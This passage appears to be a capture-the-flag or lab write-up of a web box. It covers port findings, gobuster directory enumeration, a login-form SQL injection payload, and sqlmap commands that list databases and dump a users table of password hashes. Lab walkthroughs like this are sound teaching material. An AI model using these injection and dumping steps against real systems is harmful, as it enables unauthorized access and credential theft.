Key findings:
- SSH on port 22 (likely for final access)
- Apache web server on port 80
- MySQL database on port 3306

### Web Enumeration

Visiting the website reveals a login portal:
```bash
gobuster dir -u http://10.10.10.xxx -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Interesting directories found:**
- `/admin` - Admin panel (403 Forbidden)
- `/uploads` - File upload directory
- `/api` - API endpoints
- `/backup` - Backup files

---

## Initial Foothold

### SQL Injection Discovery

Testing the login form for SQL injection:
```sql
Username: admin' OR '1'='1
Password: anything
```

Response indicates SQL injection vulnerability!

### Exploiting SQLi

Using sqlmap to dump the database:
```bash
sqlmap -u "http://10.10.10.xxx/login.php" --data="username=admin&password=test" --dbs
```

**Databases found:**
- information_schema
- webapp_db
- mysql

Dumping credentials from webapp_db:
```bash
sqlmap -u "http://10.10.10.xxx/login.php" --data="username=admin&password=test" -D webapp_db --tables
```

**Table: users**
```
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 |
|  2 | john     | 098f6bcd4621d373cade4e832627b4f6 |
+----+----------+----------------------------------+
```
